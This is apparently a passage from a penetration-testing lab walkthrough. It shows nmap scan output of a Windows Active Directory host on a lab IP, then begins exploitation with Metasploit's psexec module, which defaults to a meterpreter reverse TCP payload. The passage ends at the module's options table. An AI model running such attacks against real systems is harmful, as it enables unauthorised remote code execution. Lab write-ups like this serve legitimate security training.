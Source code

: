 ```bash
Initiating NSE at 06:55
Completed NSE at 06:55, 0.76s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 06:55
Completed NSE at 06:55, 0.69s elapsed
Nmap scan report for 10.10.131.12
Host is up, received echo-reply ttl 125 (0.17s latency).
Scanned at 2021-10-28 06:54:52 PDT for 26s
Not shown: 987 filtered ports
Reason: 987 no-responses
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2021-10-28 13:55:09Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: FLASH.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: FLASH.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
Service Info: Host: ACME-TEST; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.25 seconds
           Raw packets sent: 1994 (87.712KB) | Rcvd: 17 (732B)
```

Ports `135`, `139`and `445` look very promising 🙂

# Exploitation

Let's try loading Metasploit `msfconsole` and leveraging the the `exploit/windows/smb/psexec` module:

```bash
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Now we should look at our options:

```bash
sf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ---- --------------- -------- -----------
   RHOSTS                                 yes       The target host(s), see https://github
                                                    .com/rapid7/metasploit-framework/wiki/
                                                    Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on t
                                                    arget for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authenti
```